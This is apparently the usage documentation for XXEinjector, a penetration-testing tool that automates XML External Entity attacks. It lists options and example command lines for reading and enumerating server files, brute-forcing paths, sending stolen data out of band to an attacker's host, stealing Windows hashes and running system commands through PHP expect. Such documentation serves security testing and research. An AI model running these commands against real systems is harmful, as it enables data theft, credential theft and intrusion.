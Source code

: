 XXEinjector by Jakub Palaczynski

XXEinjector automates retrieving files using direct and out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

Options:<br />
  --host	Mandatory - our IP address for reverse connections. (--host=192.168.0.2)<br />
  --file	Mandatory - File containing valid HTTP request with xml. You can also mark with "XXEINJECT" a point where DTD should be injected. (--file=/tmp/req.txt)<br />
  --path	Mandatory if enumerating directories - Path to enumerate. (--path=/etc)<br />
  --brute	Mandatory if bruteforcing files - File with paths to bruteforce. (--brute=/tmp/brute.txt)<br />

  --oob		Out of Band exploitation method. FTP is default. FTP can be used in any application. HTTP can be used for bruteforcing and enumeration through directory listing in Java < 1.7 applications. Gopher can only be used in Java < 1.7 applications. (--oob=http/ftp/gopher)<br />
  --direct  Use direct exploitation instead of out of band. Unique mark should be specified as a value for this argument. This mark specifies where results of XXE start and end. Specify --xml to see how XML in request file should look like. (--direct=UNIQUEMARK)<br />
  --2ndfile		File containing valid HTTP request used in second order exploitation. (--2ndfile=/tmp/2ndreq.txt)<br />
  --phpfilter		Use PHP filter to base64 encode target file before sending.<br />
  --enumports		Enumerating unfiltered ports for reverse connection. Specify value "all" to enumerate all TCP ports. (--enumports=21,22,80,443,445)<br />

  --hashes	Steals Windows hash of the user that runs an application.<br />
  --expect	Uses PHP expect extension to execute arbitrary system command. Best works with HTTP and PHP filter. (--expect=ls)<br />
  --upload	Uploads specified file using Java jar schema into temp file. (--upload=/tmp/upload.txt)<br />
  --xslt	Tests for XSLT injection.<br />

  --ssl		Use SSL.<br />
  --proxy	Proxy to use. (--proxy=127.0.0.1:8080)<br />
  --httpport	Set custom HTTP port. (--httpport=80)<br />
  --ftpport	Set custom FTP port. (--ftpport=21)<br />
  --gopherport	Set custom gopher port. (--gopherport=70)<br />
  --jarport	Set custom port for uploading files using jar. (--jarport=1337)<br />
  --xsltport	Set custom port for XSLT injection test. (--xsltport=1337)<br />

  --urlencode	URL encode injected DTD. This is default for URI.<br />
  --nodtd	If you want to put DTD in request by yourself. Specify "--dtd" to show how DTD should look like.<br />
  --output Output file for bruteforcing and logger mode. By default it logs to brute.log in current directory. (--output=/tmp/out.txt)<br />
  --timeout	Timeout for receiving file/directory content. (--timeout=20)<br />
  --fast	Skip asking what to enumerate. Prone to false-positives.<br />
  --verbose	Show verbose messages.<br />

Example usage:<br />
  Enumerating /etc directory in HTTPS application:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl<br />
  Enumerating /etc directory using gopher for OOB method:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher<br />
  Second order exploitation:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt<br />
  Bruteforcing files using HTTP out of band method:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http<br />
  Enumerating using direct exploitation:<br />
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK<br />
  Enumerating unfiltered ports:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all<br />
  Stealing Windows hashes:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes<br />
  Uploading files using Java jar:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf<br />
  Executing system commands using PHP expect:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls<br />
  Testing for XSLT injection:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt<br />
  Log requests only:<br />
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt<br />

